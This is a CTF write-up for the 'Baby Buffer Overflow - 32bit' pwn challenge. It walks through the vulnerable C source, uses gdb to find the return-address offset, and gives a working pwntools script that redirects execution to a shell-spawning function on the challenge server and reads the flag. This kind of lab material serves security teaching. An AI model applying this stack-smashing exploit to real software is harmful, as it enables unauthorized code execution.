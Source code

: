 +++
title = "Baby Buffer Overflow - 32bit"
description = "Can you command this program to where it cannot go?\nTo get the flag, you must somehow take control of its excecution.\nIs it even possible?"
authors = ["cstef"]
date = 2024-09-30

[taxonomies]
categories = ["pwn"]
+++

## Description

Can you command this program to where it cannot go?
To get the flag, you must somehow take control of its excecution.
Is it even possible?

----

We start out by inspecting the program's source code:

```c
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

First thing that comes to your mind when seeing vuln: the `return 0` line. As easy as overflowing `buf[16]` to overwrite the return address to the one from `target()`.

We craft a simple payload to get the offset: `AAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF`.
The first 16 `A`s are here to overflow the buffer, and the rest of the letters are in groups of 4 because this is typically the size of a value in the stack (4 bytes).

Running this with `gdb`, we get the following:

```
(gdb) run
Starting program: /home/cstef/baby
Gimme some data!
AAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) info registers
eax            0x0                 0
ecx            0xffffd944          -9916
edx            0x0                 0
ebx            0xf7ffafa0          -134238304
esp            0xffffd940          0xffffd940
ebp            0x44444444          0x44444444
esi            0xffffd9d4          -9772
edi            0xf7ffafa0          -134238304
eip            0x45454545          0x45454545
eflags         0x10282             [ SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
```

The `eip` register points to `0x45454545`, which is our `E` part. Based on this, we calculate the offset:

`16*"A" + 4*"B" + 4*"C" + 4*"D" = 28`

We now need to overwrite the stack at `<vuln+28>`:

```python
from pwn import *
import sys

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <binary>")
    sys.exit(1)

elf = ELF(sys.argv[1])
target_addr = elf.symbols["target"]
log.info(f"Target address: {hex(target_addr)}")

payload = b"A" * 28 # Padding to <vuln+28>
payload += p32(target_addr) # Replace with `target()`'s address
log.info(f"Payload: {payload}")

p = remote("challenge.ctf.games", 31453)

p.recvuntil(b"Gimme some data!\n")
p.sendline(payload)
p.interactive()
```

We run it:
```
ctf ❯ python3 huntress/baby.py ./huntress/babybufov
[!] Could not populate PLT: No module named 'pkg_resources'
[*] '/Users/cstef/Documents/ctf/huntress/babybufov'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to challenge.ctf.games on port 32091: Done
[*] Target address: 0x80491f5
[*] Payload: b'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf5\x91\x04\x08'
[*] Switching to interactive mode
Jackpot!
$ ls
babybufov
babybufov.c
flag
$ cat flag
flag{4cd3b4079393e861af489ca063373f98}
```
Flagged !